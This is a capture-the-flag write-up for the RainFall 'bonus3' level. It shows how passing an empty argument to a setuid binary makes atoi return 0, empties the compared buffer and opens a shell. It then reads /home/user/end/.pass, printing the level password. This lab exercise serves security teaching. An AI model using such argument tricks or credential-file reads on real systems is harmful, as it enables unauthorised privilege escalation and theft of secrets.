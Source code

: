 # Bonus3

We can find an executable which print a newline when we pass it one argument :
```
bonus3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 bla

bonus3@RainFall:~$ ./bonus3 bla bla
bonus3@RainFall:~$
```
After analyze it with gdb we can find just a `main()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus3/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus3/source.c) for more details.  
The program need at least 1 argument (argv[1]) otherwise it exits, the program also reads the .pass file for next level and store it into a buffer via `fread()`.  
Then the program calls `atoi()` with argv[1] as a parameter and uses the result as an index for our buffer, at that index the program inserts a null byte.  
After that, the program do a comparaison on our buffer, it must be equal to argv[1] so that we execute a shell.  
The thing is we don't know the flag! But if we input an empty string as first argument, `atoi()` will return 0 since the string does not contain a numeric value representation.  
Therefore it will replace the first character in the buffer with a `\0` (buffer[atoi("")] = 0), and since strcmp stops at `\0` both string will be considered identical :
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password:
end@RainFall:~$ ls -l
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
end@RainFall:~$
```
Bonus3 passed!

